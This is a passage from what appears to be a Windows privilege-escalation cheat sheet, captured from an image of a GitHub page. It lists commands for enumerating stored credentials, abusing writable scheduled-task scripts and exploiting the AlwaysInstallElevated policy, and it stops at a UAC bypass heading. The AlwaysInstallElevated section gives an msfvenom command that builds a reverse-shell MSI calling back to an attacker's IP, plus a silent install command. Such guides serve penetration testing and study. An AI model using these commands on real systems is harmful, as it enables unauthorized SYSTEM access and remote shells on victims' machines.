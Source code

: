 * **Commands & Tools:**
    ```powershell
    cmdkey /list
    vaultcmd /list
    ```

---

#### **Scheduled Tasks**

If a scheduled task runs with high privileges and executes a file you can modify, you can escalate.

* **Commands & Tools:**
    ```powershell
    # List tasks and their configurations
    schtasks /query /fo LIST /v
    # Check permissions on the file
    icacls C:\Path\To\script.bat
    ```
* **Exploitation:** Overwrite the script with malicious commands and wait for the task to run.

---

#### **AlwaysInstallElevated**

A pair of registry keys that, when set, cause any `.msi` package to be installed with SYSTEM privileges.

* **Commands & Tools:**
    ```powershell
    # Check if both keys are set to 0x1
    reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    ```
* **Exploitation:**
    ```powershell
    # Create a malicious MSI with msfvenom
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f msi -o malicious.msi
    # Install it on the target
    msiexec /quiet /qn /i C:\tmp\malicious.msi
    ```

---

#### **UAC Bypass**
